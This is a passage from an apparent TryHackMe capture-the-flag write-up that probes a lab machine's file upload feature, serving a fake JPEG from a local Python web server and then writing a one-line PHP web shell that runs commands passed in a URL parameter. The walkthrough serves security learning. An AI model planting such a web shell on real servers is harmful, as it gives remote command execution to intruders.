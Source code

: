 Next, we crete a fake .jpg file and trying to upload works even if the signature is not correct:

```bash
┌──(root㉿kali)-[~]
└─# echo "test" > test.jpg

┌──(root㉿kali)-[~]
└─# python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

![alt text](../assets/img/posts/2025-02-27-thm-writeup-opacity/image-2.png)

And we discover that files are uploaded as is to the `/cloud/images` path

![alt text](../assets/img/posts/2025-02-27-thm-writeup-opacity/image-3.png)

Trying the same approach with a simple PHP shell doesn’t work, the page just reloads. This suggests there may be some file extension filtering in place.

```bash
┌──(root㉿kali)-[~]
└─# echo "<?php system(\$_GET['cmd']) ?>" > shell.php
```
